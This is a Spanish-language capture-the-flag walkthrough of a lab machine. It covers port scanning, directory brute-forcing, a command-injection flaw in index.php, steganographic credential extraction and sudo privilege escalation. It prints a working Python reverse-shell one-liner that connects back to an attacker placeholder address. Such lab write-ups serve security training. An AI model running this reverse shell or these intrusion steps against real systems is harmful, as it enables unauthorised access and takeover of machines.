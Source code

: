 ## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -sS -p- <IP-OBJETIVO>
```

![Escaneo Nmap](images/bakugo1.png)

Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:

![Gobuster directorios](images/bakugo2.png)

Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster en /assets](images/bakugo3.png)

Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```

![Dirsearch resultados](images/bakugo4.png)

Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.

![Decodificación en CyberChef](images/bakugo7.png)

Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![Subida de reverse shell](images/bakugo8.png)

Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:

![Directorio de imágenes](images/bakugo9.png)

Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:

![Contraseña codificada](images/bakugo11.png)

Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```

![Hexeditor muestra error](images/bakugo13.png)

El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.

![Imagen corregida](images/bakugo14.png)

#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```

![Extracción con Steghide](images/bakugo16.png)

Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```

![Conexión SSH](images/bakugo17.png)

#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
sudo visudo
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.

![Acceso root](images/bakugo18.png)

---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!
